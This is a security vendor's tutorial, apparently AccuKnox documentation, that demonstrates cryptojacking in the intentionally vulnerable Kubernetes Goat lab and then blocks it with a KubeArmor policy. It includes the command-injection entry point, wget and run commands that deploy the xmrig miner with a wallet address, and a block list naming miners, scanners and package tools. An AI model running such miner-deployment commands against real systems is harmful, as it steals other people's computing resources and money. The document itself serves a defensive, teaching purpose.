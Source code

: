 ```yaml
---
hide:
  - toc
---
```


Cryptojacking, the unauthorized use of someone else’s computing resources for cryptocurrency mining, is a silent but rapidly growing menace. Cryptocurrency mining steals the resources of infected machines, significantly affecting their performance and increasing the wear and tear of hardware. The mining also leads to other costs, like increased power consumption or resource consumption on the cloud.

To showcase a cryptojacking attack, the Kubernetes Goat environment is used(<a href="https://github.com/madhuakula/kubernetes-goat?tab=readme-ov-file#-setting-up-kubernetes-goat", target=_blank>Kubernetes Goat Setup</a>). The Health Check deployment in Kubernetes Goat has a command injection vulnerability which allows executing commands inside the container by prefixing ```;```

## Exploiting vulnerability to deploy xmrig

To exploit the command injection vulnerability and get started with mining, start by checking the OS that the container is running on:

```sh
$ uname -a
```
For the health check deployment, the OS is ubuntu. 

**Step 1**: Download the binary release of xmrig for linux-static from the <a href="https://github.com/xmrig/xmrig/releases", target="_blank">open source github page</a>. The attacker will use a version of the binary with the config file already populated with the required info.

```sh
$ wget https://github.com/xmrig/xmrig/releases/download/v6.21.2/xmrig-6.21.2-linux-static-x64.tar.gz -P /tmp
```
After executing the above, the binary is downloaded into the container which can be confirmed by using ```ls```

![](images/crypto-mining/goat-ls.png)

**Step 2**: Install the xmrig binary into the ```/tmp``` folder

```sh
$ tar xvzf /tmp/xmrig-6.21.2-linux-static-x64.tar.gz -C /tmp
```
On successful install, an output similar to below will be visible

![](images/crypto-mining/xmrig-installed.png)

**Step 3**: Try running xmrig with the below command

```sh
$ /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
```
Now xmrig starts to mine and here, the load becomes too high that the container gets restarted
```sh
vagrant@demo:~/kubernetes-goat$ kubectl get pods -l app=health-check -w
NAME                                       READY   STATUS    RESTARTS        AGE
health-check-deployment-5777c5c54b-xfsjr   1/1     Running   2 (7m49s ago)   19h
health-check-deployment-5777c5c54b-xfsjr   0/1     OOMKilled   2 (10m ago)     19h
health-check-deployment-5777c5c54b-xfsjr   1/1     Running     3 (7s ago)      19h
```

## Protection Using AccuKnox

AccuKnox can help protect against cryptominers by blocking specific executables used for mining and thwarting the other generally used techniques for deploying cryptominers.

The following KubeArmor policy can be used for securing the health check deployment from any cryptominers including xmrig:

```sh
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: prevent-crypto-miners
spec:
  selector:
    matchLabels:
      app: health-check
      
  action: Block
  process:
    # do not allow execution of binaries from /tmp/ directory
    matchDirectories:
    - dir: /tmp/
      recursive: true
    
    matchPaths:
    # do not allow execution of xmrig (xmrig.com)
    - execname: xmrig
    
    # prevent execution of Dero miner
    - execname: dero
    - execname: dero-miner-linux-amd64
    - execname: dero-wallet-cli-linux-amd64
    - execname: derod-linux-amd64

    # do not allow execution of masscan/zgrab2/nmap used for recon 
    - execname: zgrab2
    - execname: masscan
    - execname: nmap
    
    # do not allow package management tools execution
    - execname: apt
    - execname: apk
    
    # time sync is important for miners. typically ntpdate is used.
    - execname: ntpdate
  
  # Do not allow overwriting system binaries
  file:
    matchDirectories:
    - dir: /usr/local/bin/
      readOnly: true
      recursive: true
    - dir: /sbin/
      readOnly: true
      recursive: true
    - dir: /bin/
      readOnly: true
      recursive: true
    - dir: /usr/bin/
      readOnly: true
      recursive: true
    - dir: /var/local/bin/
      readOnly: true
      recursive: true
    - dir: /boot/
      readOnly: true
      recursive: true
    
  message: cryptominer detected and blocked
  severity: 10
  tags: 
    - cryptominer
```

The above policy,

- Prevents execution of binaries from the ```/tmp/``` directory

- Prevents execution of any processes with an execname of ```xmrig```, ```dero```, ```dero-miner-linux-amd64```, ```dero-wallet-cli-linux-amd64```, ```derod-linux-amd64```, ```zgrab2```, ```masscan```, ```nmap```, ```apt```, ```apk``` and ```ntpdate``` in the system

- Prevents write to ```/usr/local/bin/```, ```/sbin/```, ```/bin/```, ```/usr/bin/```, ```/var/local/bin/```, ```/boot/``` which contain system binaries

To apply the policy in SaaS,

**Step 1**: To create the policy Navigate to Runtime Protection → Policies. Then select **Create Policy** option from the screen.

![](images/crypto-mining/create-policy.png)

**Step 2**: In the policy editor tool create/upload the above policy. Select the Cluster, namespace, **Save** and then select **Save to workspace** option.

![](images/crypto-mining/save-policy.png)

**Step 3**: Apply the policy by clicking on the three dots next to the saved policy and selecting **Apply Policy**.

![](images/crypto-mining/apply-policy.png)

**Step 4**: The policy is applied successfully. Now, try to execute xmrig again

```sh
$ /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
```
Exit status 126 is shown as xmrig is not allowed to be executed

![](images/crypto-mining/xmrig-exit.png)

Alerts are generated for the execution attempt:

```sh
ClusterName: k3scluster
HostName: worker-node02
NamespaceName: default
PodName: health-check-deployment-5777c5c54b-xfsjr
Labels: app=health-check
ContainerName: health-check
ContainerID: cd273bd868238379e9c419e9fbe7b5aeef099d8786502745cf341cf6b2b17116
ContainerImage: docker.io/madhuakula/k8s-goat-health-check:latest@sha256:ab8f3dd527e0a180f42af358d88b22e4bbe8ca81f45f6e404780e665b63da97e
Type: MatchedPolicy
PolicyName: prevent-crypto-miners
Severity: 10
Message: cryptominer detected and blocked
Source: /bin/dash
Resource: /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
Operation: Process
Action: Block
Data: syscall=SYS_EXECVE
Enforcer: AppArmor
Result: Permission denied
ATags: [cryptominer]
Cwd: /
HostPID: 21988
HostPPID: 21986
Owner: map[Name:health-check-deployment Namespace:default Ref:Deployment]
PID: 38
PPID: 36
ParentProcessName: /bin/dash
ProcessName: /tmp/xmrig-6.21.2/xmrig
Tags: cryptominer
UID: 0
```

The permission is denied for xmrig as a binary with that execname is not allowed to be executed. We have also set to prevent execution of binaries from the ```/tmp/``` directory to prevent any other cryptominers to be executed using the same methodology.

## Key Takeaways

- Most of the cryptominers deploy binaries in the ```/tmp/``` folder and execute from there - AccuKnox can prevent any executions from the ```/tmp/``` folder to protect against it.

- Time synchronization is critical for mining software and attackers use pre-installed tools such as ```ntpdate``` for date/time sync - AccuKnox can prevent the attacker’s binary from accessing them.

- Cryptominers use package management tools to install accessory tooling - AccuKnox can essentially disable the use of package managers.

- Common way to prevent any current and future crypto mining attacks would be to use KubeArmor Zero Trust policies which essentially limits any unauthorized access by network primitives, process-exec primitives, file-access primitives by any unknown binaries.
